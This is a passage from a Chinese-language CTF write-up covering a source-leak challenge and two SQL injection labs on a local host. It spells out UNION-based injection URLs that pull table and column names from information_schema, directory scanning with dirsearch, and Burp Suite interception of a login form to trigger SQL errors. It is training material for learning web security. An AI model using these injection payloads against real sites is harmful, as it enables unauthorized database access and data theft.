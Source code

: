 3. 使用 [scrabble](https://github.com/denny0223/scrabble) 工具，成功获到源码，拿到 flag。


## 1.2 SQL注入
### 1.2.1 SQL注入-1
1. 127.0.0.1/index.php?id=2-1 的结果与 127.0.0.1/index.php?id=2 相同，说明不存在数字型注入。

2. 尝试 127.0.0.1/index.php?id=2-1%27%23，发现页面有显示内容，说明是字符型注入。
  
3. 尝试 UNION 注入，127.0.0.1/index.php?id=-1%27%23union%20select%201,2,3%23，发现成功返回数据。说明是 select 1,2,3 形式，并且1不会显示，3是用户输入的数据，2是数据库数据。
  
4. 尝试获取表明 127.0.0.1/index.php?id=-1%27union%20select%201,group_concat(table_name),1%20from%20information_schema.tables%20where%20table_schema=database()%23，得到 fl4g，notes 两个表。
  
5. 分别尝试获取列名。127.0.0.1/index.php?id=-1%27union%20select%201,group_concat(column_name),1%20from%20information_schema.columns%20where%20table_name=%27fl4g%27%23。在 fl4g 中获得 flag。

### 1.2.2 SQL注入-2 
1. 访问 127.0.0.1，服务器返回 Forbidden，说明入口错误。尝试使用 dirsearch 工具扫描目录，发现 login.php、user.php 状态是200，找到入口。
```
200     2KB  http://127.0.0.1:80/login.php
403   289B   http://127.0.0.1:80/server-status
403   290B   http://127.0.0.1:80/server-status/
200    11B   http://127.0.0.1:80/user.php
```

2. 访问 http://127.0.0.1:80/login.php ，随机使用账号密码登录，未发现异常。查看源码，发现注释中有提示：`如果觉得太难了，可以在url后加入?tips=1 开启mysql错误提示,使用burp发包就可以看到啦`
  
3. 安装 burp suit 社区版
  下载链接：https://portswigger.net/burp/releases/professional-community-2021-2-1
  安装命令：`sh burpsuite_community_linux_v2021_2_1.sh` 

4. 配置 burp suit
> 1. 进入 Proxy ->  option，选择 add，端口用 8080，选择  Loopback only。
> 2. 进入浏览器的代理设置，http/https 代理均设为 127.0.0.1，端口 8080。(与 burp 内设置的一致)
![burp proxy](burp_proxy.png)

5. 使用 burp suit 抓包、发包。
> 进入 Proxy -> intercep 页面。如果浏览器与 burp 设置成功，浏览器发出的包会先到 burp，burp 中可对这个包执行修改、转发、丢弃等等操作。在 intercep 这行一系列对包的操作。
![burp intercept](burp_intercept.png)

6. 火狐浏览器会自动周期性的发包，可先在火狐浏览器核心设置中取消这周期性的发包，具体发的包可以 burp 中 Proxy菜单下的 HTTP history 页面中看到。
   
7. burp 有时不会捕获 127.0.0.1 的流量。如果要捕获发至本机的包，使用 `ifconfig` 命令先找到本机的 ip，用本机的 ip 代替 127.0.0.1 访问，成功捕获。我的主机 ip 是 172.19.0.1。

8. burp 捕获访问 http://172.19.0.1/login.php 的包（注意此处需要捕获的是输入账号密码点击登录后产生的包），在 intercep 页面 request 栏右键选择 action：`Send to Repeater（Ctrl + R）`，再进入 Repeater 页面。在 request 中修改请求头。
   
9.  根据提示，先在 post 的 url 中添加 ?tips=1，发送后发现无有效信息。于是修改 name，由原来的 123 改为 123'（登录的用户名），成功返回 SQL 报错信息：
> string(154) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''123''' at line 1"
> ![burp login request](burp_login_request.png)
